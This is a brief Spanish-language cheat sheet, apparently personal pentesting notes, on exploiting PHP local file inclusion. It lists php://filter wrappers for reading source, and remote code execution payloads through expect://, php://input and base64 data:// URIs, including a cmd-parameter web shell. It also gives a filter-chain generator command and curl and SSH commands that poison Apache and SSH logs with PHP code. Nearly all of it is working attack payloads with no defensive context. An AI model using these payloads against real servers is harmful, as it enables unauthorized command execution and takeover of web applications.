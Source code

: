 
## Wrappers:
- php://filter/convert.base64-encode/resource=
- php://filter/read=string.rot13/resource=
- php://filter/convert.iconv.utf-8.utf-16/resource=
## Wrappers para RCE:
- (GET)expect://whoami.
- (Cualquiera de los 2):
(Head)
POST /?filename=php://input HTTP/1.1
(Body)
<?php system ("whoami"); ?>
- (GET) /?filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTsgPz4=
- (GET) /?filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2b&cmd=whoami (Hay que encodear la cadena en base64).
- Usando la tool de este repo: https://github.com/synacktiv/php_filter_chain_generator
Podemos generar cadenas falopa las cuales nos permiten hacer RCEs.
python3 php_filter_chain_generator.py --chain '<?php system("whoami"); ?>'

## Log Poisoning
Hay que tener cuidado con esta tecnica ya que si escribimos mal los comando o ponemos mal las comillas podemos contaminar por completo el log y asi lo dejariamos de leer evitando que interprete nuestro codigo.
Comandos bien escritos:
==/var/log/apache2/access.log== (Logs de apache)
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system('whoami'); ?>"
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
==/var/log/btmp== (Logs de ssh)
ssh '<?php system($_GET["cmd"]); ?>'@172.17.0.2